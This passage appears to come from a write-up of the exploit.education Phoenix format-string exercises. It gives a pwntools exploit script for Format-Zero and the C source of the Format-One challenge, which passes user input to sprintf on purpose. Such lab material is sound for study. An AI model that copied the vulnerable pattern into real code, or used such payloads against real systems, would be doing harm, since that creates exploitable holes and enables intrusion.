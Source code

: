 

Final Exploit:
```python
from pwn import *

# create a process with ELF file
p = process('./vuln')

# variable
format_string = b'%x'

# payload
payload = format_string*5

# the usual stuff
p.recvuntil(b'Welcome to Format-Zero, brought to you by https://exploit.education')

p.sendline(payload)

p.interactive()
```

Great success!

[formatzerosuccess](../Images/PhoenixExploit/formatzerosuccess.JPG)

---
### Format-One
Exploit the Format String Vulnerability to change the value of `changeme` to a specific value.

Source Code:
```c

#define BANNER "Welcome to Format-One, brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```
